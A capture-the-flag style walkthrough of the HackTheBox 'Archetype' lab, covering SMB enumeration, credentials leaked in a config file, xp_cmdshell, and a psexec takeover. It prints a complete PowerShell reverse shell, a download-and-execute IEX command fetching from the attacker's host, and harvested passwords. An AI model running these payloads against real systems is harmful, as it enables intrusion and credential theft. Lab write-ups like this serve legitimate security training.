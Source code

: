 ```yaml
---
title: HTB - Archetype Walkthrough
date: 2021-08-08 19:35:10
tags: [WalkThrough, HTB, Penetration Testing, Starting Point]
---
```


# Enumeration
## Scan for opening ports
```
nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// >> ports.txt

tr: change \n to ,
sed s/,$ replace the last `,` to empty
```
more detailed scan
```
nmap -sC -sV -p`cat ports.txt` 10.10.10.27
```
Results:
```
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s Microsoft SQL Server 2017 
5985/tcp  open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc        Microsoft Windows RPC
49665/tcp filtered unknown
49667/tcp open     msrpc        Microsoft Windows RPC
49668/tcp open     msrpc        Microsoft Windows RPC
49669/tcp closed   unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
```
Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack. Using TCP allows SMB to work over the internet.
```
445 are open (file sharing smb)

check anonymous login
```
smbclient -N -L \\\\10.10.10.27 
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC

-N: dot not ask for password
-L: list shares
```

```
smbclient -N \\\\10.10.10.27\\backups
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		10328063 blocks of size 4096. 8248806 blocks available
get prod.dtsConfig
```

A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages.

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

port 1433 is default port for ms-sql-s

```
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

```

entered the database

check weather the current user has system level privilege

```
SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
              

-----------   

          1 
```

change configuration to make xp_cmdshell available:
https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver15

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```
xp_cmdshell:
https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15

powershell reverse shell:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
reverseshell.ps

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.73',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.73",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

open a webserver for servering the file

```
python3 -m http.server 80

listening for the reverse shell:
nc -vnlp 4242
```

in sql execute:
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.73/ps_shell2.ps1\");"
```

not sure why the first script get blocked by antivirus software

the flag file stored in :C:\Users\sql_svc\Desktop\user.txt



privilege escalation:

find frequent accessed file or commands:
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

```

https://en.wikipedia.org/wiki/Net_(command)
```
use: Connect/disconnect computer to/from shared resources, or display information about computer connections

```

connect to the admin user and look at the desktop

```
psexec.py administrator@10.10.10.27

cd C:\Users\administrator\Desktop
```

to use psexec, port445 need to open 

Prerequisites:
- A modern Windows computer (local)
- File and Printer Sharing open (remote computer, TCP port 445)
- The admin$ administrative share available (remote computer)
- You know a local account’s credential (remote computer)